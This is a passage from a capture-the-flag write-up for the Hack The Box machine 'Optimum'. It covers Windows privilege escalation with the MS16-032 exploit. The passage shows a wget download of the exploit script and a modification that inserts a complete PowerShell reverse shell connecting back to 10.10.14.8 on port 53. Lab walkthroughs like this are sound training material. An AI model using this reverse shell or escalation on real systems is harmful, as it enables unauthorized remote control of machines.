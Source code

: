 ```shell
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
[...]
```

> After trying different KEs, I found that **MS16-032** KE works.

**According to [this blog post](https://www.puckiestyle.nl/windows-privilege-escalation/), we can escalate our privilege to SYSTEM via:**

- **Download the PowerShell exploit script:** (From [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032))

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|12:36:07(HKT)]
└> wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/master/MS16-032/MS16-032.ps1
[...]
```

- **Modify the exploit:**

Since we're inside a limited shell, we can't escalate our privilege in the default version of the MS16-032 script, as **it'll create a pop-up `cmd.exe` window** on the target machine, which we can't access that window because we're not in GUI (Graphical User Interface) mode.

To solve this problem, we need to modify the exploit script to send a reverse shell payload instead of a pop-up `cmd.exe` window.

**Go to line 330, copy and paste the following PowerShell code:**
```powershell
        # LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
		# $CallResult = [Advapi32]::CreateProcessWithLogonW(
		# 	"user", "domain", "pass",
		# 	0x00000002, "C:\Windows\System32\cmd.exe", "",
		# 	0x00000004, $null, $GetCurrentPath,
		# 	[ref]$StartupInfo, [ref]$ProcessInfo)

		# Modified to create a Powershell reverse shell 
		$CallResult = [Advapi32]::CreateProcessWithLogonW(
			"user", "domain", "pass",
			0x00000002, 
			'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe', 
			'-NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"10.10.14.8\",53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"',
			0x00000004, $null, $GetCurrentPath,
			[ref]$StartupInfo, [ref]$ProcessInfo)
```
